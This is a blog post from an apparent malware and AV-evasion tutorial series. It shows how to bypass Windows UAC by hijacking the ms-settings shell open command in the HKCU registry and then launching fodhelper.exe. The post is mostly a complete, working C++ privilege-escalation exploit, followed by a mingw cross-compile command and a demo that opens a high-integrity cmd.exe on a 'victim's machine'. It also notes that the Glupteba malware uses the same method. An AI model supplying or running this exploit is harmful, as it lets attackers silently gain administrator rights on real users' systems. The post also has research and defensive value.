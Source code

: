 ```yaml
---
title:  "Malware AV/VM evasion - part 17: bypass UAC via fodhelper.exe. Simple C++ example."
date:   2023-06-19 09:00:00 +0300
header:
  teaser: "/assets/images/101/2023-06-20_23-11.png"
categories:
  - malware
tags:
  - evasion
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!        

![av-evasion](/assets/images/101/2023-06-20_23-11.png){:class="img-responsive"}      

This post appeared as an intermediate result of one of my research projects in which I am going to bypass the antivirus by depriving it of the right to scan, so this is the result of my own research on the first step, one of the interesting UAC bypass trick: via `foodhelper.exe` with registry modification.      

### registry modification

The process of modifying a registry key has as its end objective the rerouting of an elevated program's execution flow to a command that has been managed. The most common misuses of key values involve the manipulation of `windir` and `systemroot` environment variables, as well as shell open commands for particular file extensions (depending on the program that is being targeted):      

- `HKCU\\Software\\Classes\<targeted_extension>\\shell\\open\command (Default or DelegateExecute values)`     
- `HKCU\\Environment\\windir`     
- `HKCU\\Environment\\systemroot`        

### fodhelper.exe

`fodhelper.exe` was introduced in Windows 10 to manage optional features like region-specific keyboard settings. It's location is: `C:\Windows\System32\fodhelper.exe` and it is signed by Microsoft:      

![av-evasion](/assets/images/101/2023-06-20_23-50.png){:class="img-responsive"}      

When `fodhelper.exe` is started, process monitor begins capturing the process and discloses (among other things) all registry and filesystem read/write operations.  The read registry accesses are one of the most intriguing activities, despite the fact that some specific keys or values are not discovered. Because we do not require special permissions to modify entries, `HKEY_CURRENT_USER` registry keys are particularly useful for testing how a program's behavior may change after the creation of a new registry key.       

`fodhelper.exe`, searches for `HKCU:\Software\Classes\ms-settings\shell\open\command`. This key does not exist by default in Windows 10:       

![av-evasion](/assets/images/101/2023-06-20_23-58.png){:class="img-responsive"}      

So, when malware launches `fodhelper` (as we know, a Windows binary that permits elevation without requiring a UAC prompt) as a Medium integrity process, Windows automatically elevates `fodhelper` from a Medium to a High integrity process. The High integrity `fodhelper` then tries to open a `ms-settings` file using the file's default handler. Since the malware with `medium integrity` has commandeered this handler, the elevated `fodhelper` will execute an attack command as a process with high integrity.      

### practical example

So, let's go to create PoC for this logic. First of all create registry key and set values - our registry modification step:     

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : "successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : "successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : "successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

As you can see, just creates a new registry structure in: `HKCU:\Software\Classes\ms-settings\` to perform UAC bypass.      

Then, start elevated app:     

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

That's all.    

Full source code is looks like `hack.c`:    

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### demo

Let's go to see everything in action. First, let's check registry:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](/assets/images/101/2023-06-20_23-08_1.png){:class="img-responsive"}      

Also, check our current privileges:     

```powershell
whoami /priv
```

![av-evasion](/assets/images/101/2023-06-20_23-09_2.png){:class="img-responsive"}      

Compile our `hack.c` PoC in attacker's machine:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/101/2023-06-20_23-16.png){:class="img-responsive"}      

Then, just run it in the victim's machine (`Windows 10 x64 1903` in my case):     

```powershell
.\hack.exe
```

![av-evasion](/assets/images/101/2023-06-20_23-08.png){:class="img-responsive"}      

As you can see, `cmd.exe` is launched. Check registry structure again:     

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](/assets/images/101/2023-06-20_23-09.png){:class="img-responsive"}      

As you can see, the registry has been successfully modified.    

Check privileges in our launched `cmd.exe` session:    

```powershell
whoami /priv
```

![av-evasion](/assets/images/101/2023-06-20_23-09_1.png){:class="img-responsive"}      

Then, run `Process Hacker` with Administrator privileges:     

![av-evasion](/assets/images/101/2023-06-20_23-12.png){:class="img-responsive"}      

and check properties of our `cmd.exe`:     

![av-evasion](/assets/images/101/2023-06-20_23-14.png){:class="img-responsive"}      

![av-evasion](/assets/images/101/2023-06-20_23-15.png){:class="img-responsive"}      

As you can see, everything is worked perfectly! =^..^=     

[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba) malware leveraging this method to first elevate from a Medium to High integrity process, then from High to System integrity via Token Manipulation.

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)    
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)       

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
